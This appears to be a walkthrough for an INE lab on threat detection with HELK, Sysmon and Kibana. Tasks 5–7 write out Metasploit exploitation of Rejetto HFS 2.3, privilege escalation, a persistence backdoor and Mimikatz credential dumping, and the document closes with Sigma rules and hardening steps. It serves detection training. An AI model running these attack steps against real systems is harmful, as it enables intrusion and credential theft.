






# Threat Detection with Elasticsearch and Kibana — Complete Walkthrough & Threat Hunting Masterclass

> **Platform:** [INE Security (Cybersecurity Hands-on Labs)](https://my.ine.com/)
>
> **Lab Link:** [https://my.ine.com/labs/111ff5bc-69c0-4e1c-9c78-b8ea6240093e](https://my.ine.com/labs/111ff5bc-69c0-4e1c-9c78-b8ea6240093e)
>
> **Lab Title:** Threat Detection with Elasticsearch and Kibana
>
> **Category:** SIEM Detection Engineering, Red-to-Blue Threat Hunting & Host Forensics
>
> **Telemetry Pipeline:** Windows Server 2019 (Target) → Sysmon + Winlogbeat → Apache Kafka (`10.0.21.29:9092`) → Logstash → Elasticsearch → Kibana (HELK)
>
> **Video Demonstration:** [`Threat Detection With Elasticsearch And Kibana.mp4`](./Threat%20Detection%20With%20Elasticsearch%20And%20Kibana.mp4)
>
> **Status:** 8 of 8 Tasks Completed (100% Solved & Detected)

---

<div align="center">



# 🛡️ Threat Detection with Elasticsearch & Kibana 🛡️
### Advanced Windows Auditing, Sysmon & Winlogbeat Pipeline, Rejetto HFS Exploit & Mimikatz Triage

[](https://my.ine.com/labs/111ff5bc-69c0-4e1c-9c78-b8ea6240093e)
[](https://github.com/Cyb3rWard0g/HELK)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://www.exploit-db.com/exploits/39161)
[](https://github.com/gentilkiwi/mimikatz)

</div>

---

### 🎥 Real-Time Threat Hunting & Attack Emulation Demonstration

The animated visual below illustrates the full red-to-blue lifecycle—deploying the HELK Kafka ingestion pipeline, configuring Windows advanced auditing policies, deploying SwiftOnSecurity Sysmon, establishing remote command execution via Rejetto HFS, planting a VBS persistence backdoor, dumping plaintext credentials and NTLM hashes using Mimikatz, and triaging the entire incident within Kibana:



---

# Executive Summary

Modern enterprise detection engineering requires a bidirectional bridge between **offensive attack emulation** and **defensive telemetry ingestion**:
* **The Hunting ELK (HELK):** An open-source threat hunting platform integrating Elasticsearch, Logstash, Kibana, Apache Kafka (port `9092`), and Apache Spark, designed for structured streaming and real-time security analytics.
* **Kernel & Host Visibility:** Native Windows logging frequently omits process arguments and command-line execution contexts. Enforcing **Detailed Tracking** via Group Policy (`gpedit.msc`), enabling **PowerShell ScriptBlock Logging**, and deploying **Microsoft Sysinternals Sysmon** ensures kernel-level visibility into process creation (EID 1), network sockets (EID 3), and LSASS memory scraping (EID 10).
* **The Cyber Kill Chain:**
  1. *Initial Foothold:* Vulnerability exploitation in Rejetto HTTP File Server (HFS) 2.3 via Metasploit (`exploit/windows/http/rejetto_hfs_exec`).
  2. *Privilege Escalation:* Elevating privileges to `NT AUTHORITY\SYSTEM` via Meterpreter `getsystem`.
  3. *Persistence:* Planting a VBScript autorun dropper in `%TEMP%` (`douwxodqwof.vbs`).
  4. *Credential Access:* Injecting into `lsass.exe` using Mimikatz (`sekurlsa::logonPasswords`) to extract NTLM hashes.
  5. *SIEM Triage:* Correlating telemetry across HELK Sysmon Dashboards and Kibana Discover to map the complete incident footprint.

---

# 8-Stage Red-to-Blue Execution & Ingestion Map

The blueprint below maps the interaction between the Attacker machine (Kali), Target machine (Windows Server 2019), and SOC machine (HELK Ubuntu 20.04):



---

# 🔑 Lab Credentials & Environment Details

| Component | Hostname / IP | Credentials | Service Role |
|---|---|---|---|
| **Attacker Machine** | Kali GUI | Native GUI Session | Metasploit, Nmap, Exploitation |
| **SOC Machine (HELK)** | `10.0.21.29` | **Kibana:** `helk` / `hunting`<br>**URL:** `https://localhost` | Kafka Broker (Port 9092), Elasticsearch, Kibana |
| **Target Server** | `demo2.ine.local`<br>(Windows Server 2019) | `administrator` / `abc_123321!@#` | HFS 2.3 Web Server, Sysmon, Winlogbeat Shipper |

---

# 📊 Master Task & Detection Matrix

| Task # | Operation Phase | Action Executed | Primary Tool / Configuration | Kibana / Forensic Artifact |
|:---:|:---|:---|:---|:---|
| **Task 1** | HELK Initialization | Deploy containerized hunt stack | `cd /opt/HELK/docker && ./helk_install.sh` | Kibana available at `https://localhost` |
| **Task 2** | Windows Detailed Auditing | Enable Process Creation, CmdLine, ScriptBlock, Task Scheduler | `gpedit.msc` & `profile.ps1` | WinEvent EID 4688 with `CommandLine` included |
| **Task 3** | Sysmon Deployment | Install kernel monitor with SwiftOnSecurity config | `Sysmon.exe -i sysmonconfig-export.xml` | `Microsoft-Windows-Sysmon/Operational` telemetry |
| **Task 4** | Winlogbeat Pipeline | Configure Kafka broker destination | `winlogbeat.yml` → `hosts: ["10.0.21.29:9092"]` | Real-time event streaming to HELK |
| **Task 5** | Initial Foothold | Exploit Rejetto HFS 2.3 RCE | Metasploit `rejetto_hfs_exec` | Meterpreter session, `getsystem` (SYSTEM) |
| **Task 6** | Maintaining Access | Deploy persistence backdoor | Meterpreter `run persistence` | Dropped `.vbs` in Temp & `HKLM\Run` key |
| **Task 7** | Credential Dumping | Extract NTLM hashes from LSASS | Mimikatz `sekurlsa::logonPasswords` | Memory scraping of `lsass.exe` |
| **Task 8** | Kibana SOC Triage | Correlate all attacks in Kibana | Kibana Sysmon Dashboard & Discover | Query `"hfs.exe" AND "wscript.exe"`, `.vbs`, `mimikatz` |

---

# 🔬 Step-by-Step Technical Execution & Detection Guide

---

### Task 1: Start HELK System for Kibana Access

#### 1. Objective
Initialize the Hunting ELK (HELK) containerized stack on the Ubuntu 20.04 SOC machine.

#### 2. Execution Commands (Ubuntu SOC Machine)
```bash
cd /opt/HELK/docker/
./helk_install.sh
```
*Wait approximately 5 minutes for all Docker containers (Elasticsearch, Logstash, Kafka, Kibana, Nginx) to initialize.*

#### 3. Verification
Open Firefox and navigate to `https://localhost`. Accept the self-signed SSL warning.
* **Username:** `helk`
* **Password:** `hunting`
Confirm that the Kibana interface loads with pre-configured HELK dashboards.


---

### Task 2: Enable Detailed Windows Tracking & Auditing

#### 1. Objective
Configure Windows Server 2019 Local Group Policy to capture process command-line arguments, PowerShell script execution, and Task Scheduler operations.

#### 2. Group Policy Configuration (`gpedit.msc`)
On the Windows Target Machine, launch `gpedit.msc`:

1. **Process Creation Auditing:**
   * Path: `Computer Configuration` → `Windows Settings` → `Security Settings` → `Advanced Audit Policy Configuration` → `Detailed Tracking`
   * Enable: **Audit Process Creation** (Success & Failure)
   * Enable: **Audit Process Termination** (Success & Failure)

2. **Force Subcategory Policy Override:**
   * Path: `Security Settings` → `Local Policies` → `Security Options`
   * Enable: **Audit: Force audit policy subcategory settings (Windows Vista or later) to override audit policy category settings** (sets `SCENoApplyLegacyAuditPolicy`).

3. **Include Command-Line Arguments in Event ID 4688:**
   * Path: `Computer Configuration` → `Administrative Templates` → `System` → `Audit Process Creation`
   * Enable: **Include command line in process creation events**

4. **PowerShell ScriptBlock & Module Logging:**
   * Path: `Administrative Templates` → `Windows Components` → `Windows PowerShell`
   * Enable: **Turn on Module Logging** (Module Names: `*`)
   * Enable: **Turn on PowerShell Script Block Logging**

5. **PowerShell Preference Variables (`profile.ps1`):**
   Create file `C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1`:
   ```powershell
   $LogCommandLifeCycleEvent = $true
   $LogCommandHealthEvent = $true
   ```

6. **Enable Task Scheduler Operational Logging:**
   Execute in PowerShell:
   ```powershell
   $logName = 'Microsoft-Windows-TaskScheduler/Operational'
   $log = New-Object System.Diagnostics.Eventing.Reader.EventLogConfiguration $logName
   $log.IsEnabled = $true
   $log.SaveChanges()
   ```

7. **Restart Target Machine:**
   ```powershell
   Restart-Computer -Force
   ```
   *Wait 2–3 minutes and reconnect.*


---

### Task 3: Configure Sysmon on Windows Server

#### 1. Objective
Install Microsoft Sysinternals Sysmon as a persistent Windows service with SwiftOnSecurity's modular configuration template for high-fidelity process, socket, and registry telemetry.

#### 2. Installation Command (PowerShell as Administrator)
```powershell
C:\Users\Administrator\Documents\Sysmon.exe -accepteula -i C:\Users\Administrator\Documents\sysmonconfig-export.xml
Get-Service -Name Sysmon
```
*Verify that the Sysmon service status is `Running`.*



---

### Task 4: Configure Winlogbeat Shipper

#### 1. Objective
Configure the Winlogbeat log forwarder to stream Windows Event Logs directly to the HELK Apache Kafka broker.

#### 2. Obtain SOC Machine IP (Ubuntu SOC)
```bash
ifconfig ens5
# Output confirms HELK IP: 10.0.21.29
```

#### 3. Modify Configuration (`C:\Users\Administrator\Desktop\Tools\winlogbeat\winlogbeat.yml`)
Update the Kafka output broker address:
```yaml
output.kafka:
  hosts: ["10.0.21.29:9092"]
  topic: "winlogbeat"
```

#### 4. Install & Start Service (Windows Target)
```powershell
powershell -ep bypass
cd C:\Users\Administrator\Desktop\Tools\winlogbeat
.\install-service-winlogbeat.ps1
Start-Service -Name winlogbeat
Get-Service -Name winlogbeat
```
*Note: Starting Winlogbeat may briefly interrupt the RDP session. Click Reconnect if prompted.*


---

### Task 5: Exploit Rejetto HFS Vulnerable Application

#### 1. Objective
From the Kali attacker machine, identify the vulnerable HTTP File Server application and exploit it using Metasploit to obtain a Meterpreter session and escalate privileges.

#### 2. Service Reconnaissance
```bash
nmap -sS -sV -p 80 demo2.ine.local
```
*Output identifies: `80/tcp open http Rejetto HFS (HTTP File Server) 2.3`.*

#### 3. Metasploit Exploitation
```bash
msfconsole -q
msf6 > search rejetto
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS demo2.ine.local
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit -j
```

#### 4. Privilege Escalation
```bash
msf6 > sessions -i 1
meterpreter > getuid
# Server username: DEMO2\Administrator
meterpreter > getsystem
# ...got system via technique 1 (Named Pipe Impersonation).
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
```



---

### Task 6: Maintain Access (Meterpreter Persistence)

#### 1. Objective
Establish persistence across reboots by deploying a backdoor VBScript payload and registering an autorun registry key.

#### 2. Execution Command
```bash
meterpreter > run persistence
```
*Output confirms: Backdoor script placed in `%TEMP%` and autorun registry key written under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`.*


---

### Task 7: Run Mimikatz & Dump Credentials

#### 1. Objective
Execute Mimikatz on the target machine to enable debug privileges and scrape plaintext credentials and NTLM password hashes from `lsass.exe` memory.

#### 2. Execution Command (Windows Server)
Launch `C:\Users\Administrator\Desktop\Tools\mimikatz\mimikatz.exe`:
```text
privilege::debug
sekurlsa::logonPasswords
```
*Output dumps NTLM hashes and credentials for user `administrator` and domain accounts.*



---

### Task 8: SOC Threat Hunting in Kibana

#### 1. Kibana Sysmon Dashboard Triage
Navigate to Kibana (`https://localhost`) → **Dashboards** → **Sysmon Dashboard (HELK)**:
* **Process Creation Spikes:** Review process execution counts (e.g. `wmiadap.exe` executed 33 times).
* **Binary Hash Verification:** Scroll to process SHA256 hashes to cross-reference against Threat Intelligence feeds (VirusTotal).

#### 2. Sysmon Network Dashboard Triage
Click **Sysmon Network Dashboard (HELK)**:
* **Socket Connections (Event ID 3):** Observe anomalous outbound connections originating from unknown executables in the Temp directory directed back to the Kali IP.
* **Suspicious Parentage:** Identify `wscript.exe` establishing external network sockets.

#### 3. Kibana Discover Investigation

1. **Investigating Initial Exploitation:**
   * Query:
     ```text
     "hfs.exe"
     ```
   * Finding: `hfs.exe` spawned `wscript.exe` with command line:
     ```text
     C:\Windows\System32\wscript.exe" //B //NOLOGO %TEMP%\tlqjxleo.vbs
     ```
   * Confirming Child Process:
     ```text
     "hfs.exe" and "wscript.exe"
     ```

2. **Uncovering Persistence Backdoor:**
   * Query:
     ```text
     *.vbs
     ```
   * Finding: Isolates the persistent backdoor script dropped during Task 6:
     ```text
     c:\users\admini~1\appdata\local\temp\2\douwxodqwof.vbs
     ```
   * Secondary Dropper: The `.vba` cradle dropped a secondary executable:
     ```text
     C:\Users\ADMINI~1\AppData\Local\Temp\2\radCB854.tmp\GtrkSyafTdtynCg.exe
     ```

3. **Hunting Mimikatz Execution:**
   * Query:
     ```text
     "mimikatz"
     ```
   * Finding: Captures process execution of `mimikatz.exe`, Sysmon Event ID 10 (ProcessAccess targeting `lsass.exe` with access mask `0x1fffff`), and debug privilege assignment.


---

# 🛡️ Production Detection Engineering (Sigma Rules)

### Sigma Rule 1: Rejetto HFS Spawning Script Interpreters (T1059.005)
```yaml
title: Rejetto HFS Spawning Wscript or Cscript
id: c8b1f2e3-4a5b-6c7d-8e9f-0a1b2c3d4e5f
status: production
description: Detects the Rejetto HTTP File Server (hfs.exe) spawning Windows Script Host, indicative of CVE-2014-6287 exploitation.
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith: '\hfs.exe'
    Image|endswith:
      - '\wscript.exe'
      - '\cscript.exe'
      - '\powershell.exe'
      - '\cmd.exe'
  condition: selection
level: critical
tags:
  - attack.initial_access
  - attack.execution
  - attack.t1190
  - attack.t1059.005
```

### Sigma Rule 2: LSASS Memory Access by Untrusted Process (T1003.001)
```yaml
title: LSASS Process Access Indicative of Mimikatz
id: e1a2b3c4-d5e6-7f8a-9b0c-1d2e3f4a5b6c
status: production
description: Detects untrusted processes requesting full debug or read permissions against the Local Security Authority Subsystem Service (LSASS).
logsource:
  category: process_access
  product: windows
detection:
  selection:
    TargetImage|endswith: '\lsass.exe'
    GrantedAccess:
      - '0x1010'
      - '0x1038'
      - '0x1fffff'
  filter:
    SourceImage|endswith:
      - '\svchost.exe'
      - '\csrss.exe'
  condition: selection and not filter
level: high
tags:
  - attack.credential_access
  - attack.t1003.001
```

---

# 📌 Defensive Recommendations & Hardening

1. **Decommission Legacy Services:**
   * Rejetto HFS 2.3 is obsolete and contains unauthenticated RCE vulnerabilities. Replace with secure authenticated solutions (SFTP, HTTPS WebDAV with TLS 1.3).
2. **Enable LSA Protection (RunAsPPL):**
   * Prevent untrusted processes from opening handles to LSASS by enforcing Protected Process Light:
   ```reg
   reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1 /f
   ```
3. **Attack Surface Reduction (ASR) Rules:**
   * Block executable content from email client and webmail.
   * Block process creation originating from PSExec and WMI commands.
   * Block credential stealing from Windows Local Security Authority Subsystem (LSASS.exe).
